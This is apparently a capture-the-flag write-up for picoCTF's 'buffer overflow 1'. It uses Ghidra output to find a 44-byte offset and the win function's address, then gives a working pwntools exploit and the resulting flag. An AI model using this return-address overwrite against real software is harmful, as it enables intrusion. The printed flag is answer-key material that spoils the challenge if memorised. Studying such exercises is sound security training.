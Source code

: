 # buffer overflow 1 Writeup

## Steps:
1. Open in ghidra and analyze
        - Notice functions called `vuln` and `win`
```
void vuln(void)

{
  undefined4 uVar1;
  char input [36];
  
  gets(input);
  uVar1 = get_return_address();
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n",uVar1);
  return;
}

```
Win just prints out the flag. The plan is to overflow the input to replace the return address with `win`

2. Based on the stack variable layout, we need to overwrite up to the return address. This `0x2c bytes` or `44`.

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined vuln()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     080492bf(R)  
             undefined1[36]    Stack[-0x2c]   input                                   XREF[1]:     0804929a(*)  
                             vuln                                            XREF[4]:     Entry Point(*), main:0804932a(c), 
                                                                                          0804a0e8, 0804a1a0(*)  
        08049281 f3 0f 1e fb     ENDBR32

```

3. Next, we need to find the address of `win` to return to. This is found in ghidra to be `0x080491f6`.
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined win()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     0804927c(R)  
             undefined4        Stack[-0x10]:4 local_10                                XREF[3]:     08049225(W), 
                                                                                                   08049228(R), 
                                                                                                   0804925b(R)  
             undefined1        Stack[-0x50]:1 local_50                                XREF[2]:     08049260(*), 
                                                                                                   0804926f(*)  
                             win                                             XREF[3]:     Entry Point(*), 0804a0e0, 
                                                                                          0804a17c(*)  
        080491f6 f3 0f 1e fb     ENDBR32

```

4. Create the payload: 44 bytes to overwrite then add the address of win. Send the payload to the process.
```
from pwn import *

# p = process("./vuln")
p = remote("saturn.picoctf.net",52456)

win = 0x080491f6

payload = b"A" * 44
payload += p32(win)

p.sendline(payload)

s = p.recvall().decode()
print(s)
```


## Solution:
```
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 52456: Done
[+] Receiving all data: Done (127B)
[*] Closed connection to saturn.picoctf.net port 52456
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```

